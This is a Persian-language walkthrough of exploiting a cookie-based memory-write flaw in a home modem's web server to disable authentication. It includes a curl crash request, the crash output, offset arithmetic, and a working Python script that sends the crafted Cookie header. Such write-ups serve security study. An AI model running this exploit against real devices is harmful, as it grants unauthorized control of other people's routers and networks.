 مشخصه که بایتی از مموری که معلوم می کنه احراز هویت فعال باشه یا نه این جاست:

```plaintext
-0x7A5B($gp)
```

طبق گفته Cawan اگر کوکی Cxxx=yyy برای مودم ارسال بشه yyy در آدرسی از مموری که به xxx یه ریطی داره نوشته می شه.برای فهمیدن آدرس دقیق بولین احراز هویت تو مموری به مقدار رجیستر gp نیازه.رجیستر gp به وسط یه بلاک با سایز مشخص از قسمت data اشاره میکنه. و مقدارش همیشه ثابت هست.پس طبقه کاری که Grant کرده کوکی زیر رو برای مودم فرستادم و مودم کرش کرد.

```plaintext
curl --header 'Cookie: C101010101=hello;' 192.168.1.1
```

بعد از اینکه مودم کرش میکنه دو چیز که ما بهش نیاز داریم رو چاپ می کنه.یکی مقدار رجیستر gp و دیگه Bad Virtual Address که حافظه ای از مموریه که می خواسته روی اون بنویسه و نتونسته.

```plaintext
Cookie = 101010101
Bad Virtual Address = 0x71147c44
$gp = 0x803D6D90
```

همچنین اگر عدد کوکی رو یکی زیاد کنیم و دوباره بفرستیم به این صورت میشه:

```plaintext
Cookie = 101010102
Bad Virtual Address = 0x71147c6c
$gp = 0x803D6D90
```

از مقدار رجیستر gp میشه آدرسی که بولین فعال/غیر فعال بودن احرازهویت رو  در حافظه پیدا کرد:

```plaintext
auth_address = -0x7A5B($gp) = $gp -0x7A5B = 0x803D6D90 -0x7A5B = 0x803CF335
```

با کمک گرفتن از ریاضیات میشه کوکی ای که باید فرستاده بشه تا احراز هویت منتفی بشه رو حساب کرد:

```plaintext
AuthAddress = (0x71147c6c - 0x71147c44) * Cookie + Offset => AuthAddress = 0x28 * Cookie + Offset
0x71147c44 = 0x28 * hex(101010101) + Offset => Offset = −0x7FBF3004 = twos_complement(0x7FBF3004) = 0x8040CFFC
=> Cookie = (AuthAddress - 0x8040CFC) / 0x28
=> Cookie = (0x803CF335 - (−7FBF3004)) / 0x28
=> Cookie = 107367854.225
```

عدد کوکی پیدا شد.با ارسال کوکی 107367854 آدرس 0x803cf32c از مموری تغییر می کنه که 9 بایت از آدرس بولین احراز هویت  کمتره.پس باید جای این 9 بایت رو با کاراکترهای الکی پر کرد.

در نهایت این اسکریپت رو نوشتم:

```Python
import socket
import sys

host = str(sys.argv[1])

a = socket.socket()

print "Connecting to: " + host + ":" + str(80)
a.connect((host,80))

a.send("GET / HTTP/1.0\n")

a.send("Cookie: C107367854=" + "B"*9 + "\x00;\r\n\r\n")

print a.recv(2048)

a.close()
```